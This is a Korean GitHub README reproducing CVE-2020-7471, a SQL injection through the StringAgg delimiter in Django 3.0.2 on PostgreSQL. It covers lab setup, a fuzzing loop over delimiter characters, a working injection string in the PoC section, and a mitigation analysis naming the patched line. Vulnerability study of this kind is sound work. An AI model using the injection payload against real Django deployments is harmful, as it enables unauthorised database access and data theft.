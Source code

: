 # CVE-2020-7471

## 1. 환경 구성
+ **Ubuntu 20.04 버전**

+ **Django 3.0.2 설치**
  + pip install django~=3.0.2
 
+ **postgresql 13 설치**
  + sudo apt-get update
  + sudo apt show postgresql
  + sudo apt -y install postgresql postgresql-contrib
  + /etc/init.d/postgresql start
 
+ **가상환경 구성**
  + virtualenv newenv
  + source newenv/bin/activate
  + pip install django~=3.0.2
  + django-admin --version
  + deactivate
 
+ **psycopg2 설치**
  + pip install psycopg2==2.8.6
+ **setting.py 설정**  
```
#setting.py

DATABASES = {
    'default': {
        'ENGINE': 'django.db.backends.postgresql',
        'NAME': 'hxd',         
        'USER': 'postgres',
        'PASSWORD': '123456',
        'HOST': '127.0.0.1',
        'PORT': '5432',
    }
}
```
+ **마이그레이션**
```
#DB에 적용하는 과정
python3 manage.py migrate

#test_app 앱을 테이블 스키마를 생성 혹은 수정하기 위한 명령어
python3 manage.py makemigrations test_app

#test_app 앱을 DB에 적용하는 과정
python3 manage.py migrate test_app
```
+ **DB 생성**
  + CREATE DATABASES test
  + DB 조회: \c test
  + 테이블 조회: \d
  + 컬럼 조회: select * from vul_app_info;
 
    ![Untitled](https://user-images.githubusercontent.com/89399749/130726521-f428a240-12d5-401e-aec5-cccfd4b357f5.png)

--------------------------------------------------------------------------------------------------------------------------
## 2. PoC
### 내부 파이썬 환경에서만 테스트 
+ **구분 기호가 SQL 인젝션을 일으키는 방법을 테스트하기 위한 FUZZ 프로그램**
```
for c in "!@#$%^&*()_+=-|\\\"':;?/>.<,{}[]":
    results = Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name',delimiter=c))
    for e in results:
        pass
```
 + **정상적인 SQL 구문 출력**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-"))
```

   ![6](https://user-images.githubusercontent.com/89399749/130728444-95f099dd-6847-462c-b09c-370fb4581b75.png)


  + **SQL Injection 구문**
```
Info.objects.all().values('gender').annotate(mydefinedname=StringAgg('name', delimiter="-\') AS "mydefinedname" FROM "vul_app_info" GROUP BY "vul_app_info"."gender" LIMIT 1 OFFSET 1 --"))
```

   ![7](https://user-images.githubusercontent.com/89399749/130728459-a5e5520d-0fcd-4f06-81c7-b4a123f21896.png)


+ **python CVE-2020-7471.py**

![8](https://user-images.githubusercontent.com/89399749/130728470-999e9e69-f35f-4c29-a3a8-42eaf3628f81.png)


---------------------------------------------------------------------------------------------------------------------

## 3. 대응방안

+ **테스트결과 작은따음표가 이스케이프 없이 SQL 문에 포함되어 오류 메시지를 출력**

  ![2](https://user-images.githubusercontent.com/89399749/130898422-3cf70a46-237a-497c-9546-792e2021fd2a.png)


+ **self.cursor.execute를 호출하며 변수 창의 SQL 변수가 아직 delimiter 값을 포함하지 않음을 확인**

![3](https://user-images.githubusercontent.com/89399749/130728343-d2a15c5d-523a-4cab-a325-6b0fb36f1b9b.png)  

+ **86행에 SQL이 delimiter 값을 작음따음표로 추가한것을 확인**

![4](https://user-images.githubusercontent.com/89399749/130728349-c43d4473-ad36-47ca-aad9-76c6bb24f16f.png)


+ **작음따음표 와 괄호 닫기를 사용하여 FROM문이 주석처리됨을 확인**


![5](https://user-images.githubusercontent.com/89399749/130728431-cb76a989-823a-4710-b27a-e6b1699a2052.png)


+ **delimiter_expr = Value(str(delimiter))**
  + **해당 문장을 추가하여 SQL 매개변수가 이스케이프 되지않도록 조치해야함**

![9](https://user-images.githubusercontent.com/89399749/130728481-ffc3b15b-569f-4ab5-a231-7bfa53ce78e2.png)

---------------------------------------------------------------------------------------------------------------------

## 4. 참조
+ https://github.com/Safeman/CVE-2020-7471
+ https://www.heibai.org/1661.html

